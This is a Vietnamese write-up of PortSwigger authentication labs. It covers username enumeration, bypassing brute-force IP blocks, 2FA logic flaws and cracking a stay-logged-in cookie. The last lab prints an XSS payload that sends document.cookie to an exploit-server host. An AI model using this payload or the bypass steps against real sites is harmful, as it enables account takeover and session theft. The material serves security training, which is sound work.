# Authentication vulnerabilities
## Khái niệm
**Authentication**, hay **Xác thực**, là quá trình kiểm tra xem user đăng nhập vào có đúng là chính chủ tài khoản hay không. Khái niệm đơn giản nhất cho việc xác thực chính là mật khẩu, sau đó là các hình thức khác như 2FA, passkey,... Tuy nhiên, kẻ tấn công vẫn có thể xâm nhập vào tài khoản dù không biết chính xác mật khẩu.
## Lab
### Lab: Username enumeration via different responses
Lab này giả định kẻ tấn công có 1 danh sách tài khoản và mật khẩu, giờ cần kiểm tra xem tài khoản nào hợp lệ và mật khẩu nào cho tài khoản đó. Ta sẽ sử dụng Burp Intruder để bruteforce lab này.



Đối với tài khoản nào không hợp lệ, hệ thống báo `Invalid username`



Còn với tài khoản hợp lệ, hệ thống báo `Incorrect Password`



Sau khi tìm được username, ta chuyển sang bruteforce mật khẩu



Mật khẩu đúng sẽ có status 302. Lấy tài khoản và mật khẩu đăng nhập để hoàn thành lab.



### Lab: Username enumeration via subtly different responses
Cũng cách thức tương tự như trên, tuy nhiên khi bruteforce danh sách tài khoản ta nhận thấy độ dài của các request chỉ chênh lệch từ 3-12 kí tự:



Điều đó là do ở trong các dòng HTML của page xuất hiện dòng `fetch('/analytics?id=***')`



Mục đích chính của dòng trên chỉ mang tính chất gây nhiễu để ta không thể check request bằng độ dài. 

Khi kiểm tra thông báo của các request sai, ta thấy đều là `Invalid username or password.`



Vậy nếu ta thử filter lọc đi những request chứa câu đó thì sao?



Bước còn lại là bruteforce để tìm mật khẩu.





### Lab: Username enumeration via response timing
Cùng với yêu cầu như các lab trên, nhưng khi này nếu ta đăng nhập sai quá số lần quy định, hệ thống sẽ block quyền đăng nhập.



Một trong những cách để chống bruteforce đơn giản nhất là chặn IP user nếu họ nhập sai liên tục quá nhiều lần. Giả sử Lab này đang sử dụng cách thức trên, ta có thể thử chỉnh header X-Forwarded-For để khiến server này nghĩ request đến từ 1 IP khác:



Dựa vào cách này, sử dụng Burp Intruder với Battering Ram Mode, ta bruteforce để tìm username và password đúng:







### Lab: Broken brute-force protection, IP block
Cũng với kiểu block IP như trên, nhưng khi này Header X-Forwarded-For không còn hoạt động. 



Để ý rằng thông báo kia chỉ hiển thị sau 3 lần nhập sai liên tiếp, vậy nếu ta nhập sai 2 lần, lần thứ 3 nhập đúng, sau đó tiếp tục lặp lại chu kì thì sao?









Như có thể thấy, nếu nhập sai 2 lần rồi nhập đúng ở lần thứ 3, chu kì sẽ được reset và ta có thể bắt đầu chu trình này từ đầu. Lợi dụng lỗ hỏng này, ta có thể bruteforce bằng cách sử dụng **Burp Intruder** với **Pitchfork attack** mode. Ta đặt payload cho username có dạng: 
```
wiener
carlos
carlos
wiener
....
wiener
carlos
carlos
```

Đối với password, ta cũng setup tương tự tương ứng với username. Cuối cùng, khởi động **Burp Intruder** và để nó làm việc của mình.



### Lab: Username enumeration via account lock
Một trong các cách khác để bảo vệ tài khoản khỏi việc bruteforce là giới hạn số lần đăng nhập với chính tài khoản đó. Cách này có thể bảo vệ được đối với những tài khoản được chỉ định, nhưng vì attacker ngay từ đầu chỉ có danh sách "có thể" là tài khoản, nên việc này không khác gì chỉ điểm tài khoản cho họ.

Đối với lab này, nếu ta liên tục đăng nhập 5 lần với mỗi username được cho trước, ta sẽ thấy có một tài khoản thông báo khác biệt:



Sau khi biết username cần tìm, ta bruteforce password. Các response khi này ngoài thông báo báo sai mật khẩu hoặc quá số lượng đăng nhập, có duy nhất 1 password có response trả về là màn hình login:



Mật khẩu đó chính là mật khẩu cần tìm. Chỉ cần chờ hết thời gian server yêu cầu là có thể đăng nhập:



### Lab: 2FA simple bypass
Lab này tạo cơ chế 2FA với lỗ hỏng khá là đơn giản. Ở `/login` khi ta đăng nhập tài khoản và mật khẩu của user, nếu ở `/login2` đến bước nhập 2FA, ta đổi URL thành `my-accout?id=$user`, ta vẫn có quyền truy cập bình thường mà không cần 2FA


### Lab: 2FA broken logic
Lab này chứa lỗ hỏng nằm ở xác thực 2FA, với mục tiêu ở đây là đăng nhập được vào tài khoản của user `carlos`

Kiểm tra luống đăng nhập của tài khoản được cấp `wiener`, ta thấy request 2FA gửi tới server có lỗ hỏng. Cụ thể, việc xác thực chỉ được quyết định qua `Cookie: verify=$username`, tức là nếu ta thay `$username` thành `carlos`, ta vẫn có quyền truy cập để nhập code 2FA


Gửi request này tới Burp Intruder, brutefore mfa-code từ 0000 -> 9999, ta có được code 2FA. 


Sau khi có được code, ta sẽ quay về bước nhập 2FA, sử dụng Burp Intercept để chặn request gửi mã 2FA đi, thay số đó thành mã code ta tìm được với username là `carlos`, ta sẽ truy cập được tài khoản của `carlos`.

### Lab: Brute-forcing a stay-logged-in cookie
Lỗ hỏng của lab này được đặt ở cookie lưu trạng thái đăng nhập của user. Cụ thể, nếu ta đăng nhập liên tiếp 2 lần tài khoản được cấp, ta sẽ thấy cookie `stay-logged-in` không thay đổi dù cho session khác nhau:





Decode cookie `stay-logged-in` bằng base64 decoding, ta thấy rằng nó có cấu trúc: `username:md5(passsword)`. Dựa vào cấu trúc này, ta có thể hashing toàn bộ mật khẩu bằng md5, sau đó sử dụng **Burp Intruder** để bruteforce cookie.



### Lab: Offline password cracking
Để mà nói thì lab [Brute-forcing a stay-logged-in cookie](#lab-brute-forcing-a-stay-logged-in-cookie) cũng có cùng tính chất như lab này, nhưng mà cách triển khai của lab này hơi phức tạp và rườm rà.

Cùng với kiểu khai thác tương tự trên đối với cookie `stay-logged-in`, nhưng khi này ta cần sử dụng thêm 1 kĩ thuật là XSS vào chức năng comment (như chỉ dẫn từ đàu lab). Ta sẽ sử dụng payload cho phần comment:
```xml
<script>
document.location='<ID-Server>.exploit-server.net/'+document.cookie
</script>
```
